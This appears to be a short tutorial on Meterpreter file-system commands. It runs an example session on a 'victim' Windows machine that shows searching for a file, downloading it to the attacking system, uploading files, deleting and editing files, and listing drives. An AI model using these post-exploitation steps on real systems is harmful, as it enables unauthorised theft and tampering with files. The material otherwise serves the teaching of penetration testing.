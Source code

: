 ## Printing working directory
```python
meterpreter > pwd
C:\Windows\system32
```

## Changing directory
```python
meterpreter > cd ..
meterpreter > pwd
C:\Windows
```

# Searching file in the drive
```python
meterpreter > search -f download.txt -d C:/
Found 1 result...
=================

Path             Size (bytes)  Modified (UTC)
----             ------------  --------------
C:\download.txt  0             2023-03-13 12:14:12 +0530
```
- It search download.txt in the C drive 
- The -f parameter is used to specify the file pattern to search for, and the -d parameter tells the directory which file is to be searched.

## Downloading file to our attacking system from victim machine
```python
meterpreter > download C:\\download.txt
[*] Downloading: C:\download.txt -> /home/hyok/download.txt
[*] Completed  : C:\download.txt -> /home/hyok/download.txt
```
Note - You need to use double-slashes when you give the Windows path in the download command.

## uploading file to the target machine
```python
meterpreter > upload /home/hyok/download.txt
[*] Uploading  : /home/hyok/download.txt -> download.txt
[*] Completed  : /home/hyok/download.txt -> download.txt
```

## Removing file from target machine
```python
meterpreter > rm download.txt
```

## Editing files using meterpreter 
```python
meterpreter > edit download.txt
```
Note - Which uses `vim` so all the editor's commands are available

## Listing all the mount drives on the target machine 
```python
meterpreter > show_mount

Mounts / Drives
===============

Name  Type   Size (Total)  Size (Free)  Mapped to
----  ----   ------------  -----------  ---------
C:\   fixed  60.00 GiB     40.93 GiB


Total mounts/drives: 1
```

## To display all the available commands, you can use the help command followed by the group of commands you want to display:
```python
meterpreter > help File system Commands 
Stdapi: File system Commands 
============================ 
Command Description 
------- ----------- 
cat Read the contents of a file to the screen 
cd Change directory checksum 
Retrieve the checksum of a file.
```
